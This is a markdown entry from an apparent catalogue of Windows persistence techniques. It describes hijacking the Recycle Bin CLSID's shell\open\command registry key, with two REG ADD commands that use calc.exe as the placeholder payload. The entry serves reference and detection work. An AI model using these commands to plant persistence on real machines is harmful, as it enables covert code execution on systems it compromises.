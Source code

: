## Recycle Bin COM Extension Handler <!-- general "title" of the persistence. Good to be unique. -->
<!-- separate sections by two empty lines -->
<!-- do not remove empty sections  -->


### Location: <!-- where to find it -->
- `HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\`
- `HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\`


### Classification: <!-- see "how it works" document. Empty lime must go next. -->

|Criteria|Value|
|:---|:---|
|Permissions|Admin|
|Security context| User|
|Persistence type| Registry |
|Code type|EXE|
|Launch type| User initiated|
|Impact|Destructive|
|OS Version|All OS versions|
|Dependencies|OS only|
|Toolset|Scriptable|


### Description:<!-- add two EOLs or two spaces at the end of line to create a line break -->
Adding the "open\command" subkey to the Recycle Bin CLSID and adding a new verb for the "shell" key will execute the value stored in the "\command" entry.
> 1. REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command" /ve /t REG_SZ /d "calc.exe" /f
> 2. REG ADD "HKEY_CLASSES_ROOT\CLSID\\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command" /ve /t REG_SZ /d "calc.exe" /f

### References: <!-- use <...> or [abc](https://...) syntax. Prepend with "- " when more than one -->
<https://www.hexacorn.com/blog/2018/05/28/beyond-good-ol-run-key-part-78-2/>


### Credits: <!-- use [abc](https://...) syntax. Prepend with "- " when more than one. -->
- [@Hexacorn](https://twitter.com/Hexacorn)  
- Entry added by [rootisareservedword](https://github.com/rootisareservedword)

### See also: <!-- if refering to the same repo, use [Name](file.md) syntax. -->
<!-- prepend with "- " if more than one -->


### Remarks: <!-- see the usage in the "classification" section. Use only 1:1 references i.e. not refering to the same footnote from two different places -->

